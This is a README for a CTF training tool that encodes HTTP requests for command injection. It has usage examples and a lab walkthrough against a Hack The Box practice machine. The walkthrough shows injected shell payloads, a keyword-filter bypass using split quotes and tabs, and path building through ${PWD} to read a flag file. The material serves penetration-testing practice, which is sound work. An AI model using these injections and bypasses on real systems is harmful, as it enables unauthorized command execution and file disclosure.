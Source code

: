 # Request Encoder

Request Encoder (cire) is a tool that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

## Examples

The tool accept three kind of input formats injected into `-p`:

* `-i`: a string that is injected into
* `-w`: a wordlist (one string per line)
* `-I`: a file whose content will be inline using `\n`

```bash
$ onectf request -u 'URL' -v -X POST -p uid -w uids
```

By default, assuming the parameter is `-p param`, then the parameter will be injected into the URL (`GET`) or in the body (`POST/...`). Some websites are not using parameters, e.g., they send `body: xxx` instead of `body: param=xxx`.

* Use `--json` when there is no parameter and the payload is JSON
* Use `--raw` when there is no parameter

```bash
$ onectf request -u 'URL' -v -X PUT --json -I request.json
$ onectf request -u 'URL' -v -X POST --raw -I request.xml
```

Aliases are automatically enabled by default. You can use:

* `<q>` instead of `'` (quote)
* `<er>` instead of `2>&1` (error redirection)
* `<tab>` for a tabulation character
* `<m>` instead of `-` (minus)
* `<crlf>` instead of `%0D%0A` (`\r\n`)
* `<lf>` instead of `%0A` (`\n`)

```bash
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -p param -i 'echo <q>Hello<q>'
$ onectf request -u 'URL' -v -X POST -p param -i 'xxx<lf>whoami'
```

You can select with tamper script to apply:

```bash
$ onectf request -u 'URL' -v -X POST -p param --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X GET -p 'param' -w uids -f html --tamper base64
```

While fuzzing is not the primary purpose:

```bash
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
$ onectf request -u 'URL/FUZZ' -X GET --fuzz -H 'Cookie: session=XXX; HttpOnly; Path=/' -w uids -f json
```

You can use `-f` to select a specific output format:

```bash
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' -f raw
$ onectf request -u 'URL' -v -X POST -p 'uid' -w uids -f html
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
```

## Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```